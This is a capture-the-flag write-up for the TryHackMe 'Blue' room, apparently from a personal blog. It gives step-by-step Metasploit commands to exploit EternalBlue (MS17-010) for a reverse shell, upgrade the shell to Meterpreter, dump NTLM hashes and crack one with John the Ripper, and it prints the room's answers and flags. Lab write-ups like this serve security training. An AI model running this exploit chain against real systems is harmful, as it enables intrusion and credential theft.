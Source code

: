 ```yaml
---
layout: default
title: Blue
---
```

"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the **SMB (Server Message Block)** protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.

EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.

This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).

### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)

---

## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later).

1.  How many ports are open with a port number under 1000?
2.  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

We can answer these questions with just one nmap scan:

`nmap --script vuln [target_IP]`
This will return all open ports (9 in total, 3 under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or ms17-010).
![nmap]({{ site.baseurl }}/tryhackme/images/blue/ports.png)

## Gain Access
To get through this section you'll need to install the Metasploit framework. Then:

Become root: `sudo su`

Open up Metasploit: `msfconsole`

Set your local IP address as LHOST and LPORT to a random port that is not already in use:

`set LHOST tun0`
`set LPORT 4444`
Search Metasploit's database for the EternalBlue exploit: `search ms17-010`

![ms17-010](\images\blue\ms17-010.png)

Use the exploit: `use exploit/windows/smb/ms17_010_eternalblue`

Show the options for the exploit: `show options`. You'll get "RHOSTS" as the first result.

![options](\\images\blue\options.png)

Now set RHOSTS as the target machine's IP address: `set RHOSTS` [target_IP]

Set the payload: `set payload windows/x64/shell/reverse_tcp`

Run the exploit: `run`

## Escalate
Background the session with Ctrl+z (then press `y` when prompted).

Let's now search the Metasploit database for info on how to convert a shell to a Meterpreter shell:
`search shell_to_meterpreter`

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`.

![shell](\images\blue\shell.png)

Use this post module with use 0 and show its' options with show options.

![session](\images\blue\session.png)

Since we have two sessions going on, we will have to change the SESSION option to 1 with `set SESSION 1`. To know to which session you have to switch, use the command `sessions -l`.

![sessions](\images\blue\sessions.png)

Now run the exploit with `run`.
Once we get the [*] Stopping exploit/multi/handler message, press Ctrl+c to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](\images\blue\session2.png)

![meterpreter](\images\blue\meterpreter.png)

The getsystem command will now return this:

![system](\images\blue\system.png)

You can also list all the processes with the ps command and you can migrate to one of these.

![ps](\images\blue\ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate [PID]` (e.g., `migrate 2868`).

Cracking
Now use the `hashdump` command.

![hashdump](\images\blue\hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with:

`echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with:
`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This will return alqfna22 as the password.
![john](\images\blue\john.png)

Find flags!
The first flag is located in the C:\ folder:

> flag{access_the_machine}

The second flag is located in the C:\Windows\System32\config folder:

> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:

> flag{admin_documents_can_be_valuable}

That's all, hope I helped.
